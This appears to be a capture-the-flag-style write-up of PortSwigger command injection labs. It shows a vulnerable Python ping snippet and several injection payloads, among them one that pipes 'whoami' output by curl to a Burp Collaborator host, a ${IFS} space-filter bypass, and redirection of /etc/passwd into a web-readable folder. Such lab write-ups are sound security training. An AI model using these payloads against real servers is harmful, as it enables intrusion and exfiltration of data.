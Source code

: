 ### Command injection(Portswigger labs)

### Command Injection vulnerability in web apps 
   
   Command injection occurs when an attacker is able to execute shell commands(operating system commands) on a server.This vulnerability can compromise sensitive data and also help to grant access too an infrastructure.Below is an example of a vulnerable code snippet
   A website can decide to use the Linux ping utility to allow website visitors to ping ip addresses e.g
        
        import os

        ipaddr = input('Enter your ip address')
        result = os.system(f"ping {ipaddr}")
        print(result)
  
  If the user input is not properly sanitized,an attacker can close the first statement with a semi-colon(if linux) and execute another statement.
      
      ┌──(senzsei㉿kali)-[~]
      └─$ ./try.py
      Enter your ip address:;echo 'sleep'
      ping: usage error: Destination address required
      sleep
      0

  
### Challenge 1: Os command injection simple case
Challenge description:

![2023-10-22_16-05](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/1a21ffc3-3e04-46d1-bb0c-682749281f3d)

- I intercepted the check stock feature with burp proxy 

![2023-10-22_16-16](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbd5496c-ea1a-43d8-b108-6201643e3351)

- I tested both fields with linux shell command but It did not return any output.So I used semi-colon before the commands and it worked.
     
![2023-10-22_16-14](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/cd3e5497-c800-480d-bab8-e5bafd9bd7a3)

- Challenge solved

 ![2023-10-22_16-17](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/9a4035f0-62b1-41f2-b186-c1dfb8ce43c8)

### Challenge 2:
Challenge 2 description: Blind command injection with out of band exfiltration

 ![2023-10-24_14-12](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/dbec0d6a-ba94-4377-a8fc-f7bed033e85f)

- The main goal of this challenge is to exploit blind command injection by exfiltrating command output with the aid of burp collaborator.I intercepted the feedback form with burp proxy.

 ![2023-10-24_14-31](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/37093ea4-afa0-499e-afcc-f75610fc3d23)

- After sending to the repeater,I decided to test if the linux utilities that I need are filtered or if some commands are filtered.The first thing I did was making a request to burp collaborator with curl and I noticed that the string 'curl' was not filtered by the website.
- I used this payload to send a request to burp collaborator with a message saying "sleep".Note that ${IFS} means space in bash

      ;curl${IFS}<burp collaborator's link>${IFS}-d${IFS}'sleep'
- The server made a request to burp collaborator containing "sleep" in the body.

  ![2023-10-24_14-49](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/3df3fac5-8e45-4b4e-8e2c-e2db12d8dbd0)

- I exfiltrated the current user account with this payload.The payload pipes the result of 'whoami' to the position of @- and curl makes a request containing the data to burp collabortor.

      ;whoami${IFS}|curl${IFS}<burp collaborator's link>${IFS}-d${IFS}@-${IFS}2>/dev/null
- Burp collaborator received a request containing the current user account.

 ![2023-10-24_14-49](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ebbce3fd-b83d-47fd-be84-294500b5aa60)

- Challenge solved

 ![2023-10-24_15-08](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/d3bf9ad4-7537-4243-aa13-66e7b422dcaa)
  
### Challenge 3:

Challenge description: Blind OS command injection with out-of-band interaction
  
  ![2023-10-24_15-16](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/eeb9ee81-696e-46df-9cee-ee8cc9fac515)

- I used the payload of the last challenge to make a dns query to burp collaborator

  ![2023-10-24_15-37](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/fbda2acf-bb9e-4035-8e0e-7bc4e7dfdd52)

- Challenge solved

  ![2023-10-24_15-40](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/0f401a1f-33f2-4bc8-993c-5bd005c84b03)

### Challenge 4

Challenge description: Blind OS command injection with output redirection

 ![2023-10-24_15-54](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/ceedb1e0-ac2c-4910-8c84-b937bfa72b04)

- The main goal of the challeenge is to redirect uur output to the writable folder "/var/www/images"
- Intercept the feedback request and forward to the repeater

  ![2023-10-24_16-51](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/c0a43bfb-3541-4357-a4c3-a6e68249df21)

- Use this linux command to redirect whoami output to a file in /var/www/images

        ;touch${IFS}/var/www/images/resullt.txt;whoami${IFS}>${IFS}/var/www/images/result.txt

  ![2023-10-24_16-57](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a0a1c81c-e08b-49cb-98cb-516778b9b206)

- I noticed a particular link is vulnerable to Local File Include and be used to read local files

      https://0a880060030a479a803ac6e800e000e5.web-security-academy.net/image?filename=result.txt

- I redirected the output of /etc/passwd to result.txt and I got this output after visiting the link

  ![2023-10-24_17-17](https://github.com/SENSEIXENUS2/SENSEIXENUS2.github.io/assets/98669513/a3e4891c-aaf4-4c1d-8404-a36ac3aeb30a)

-
        
  

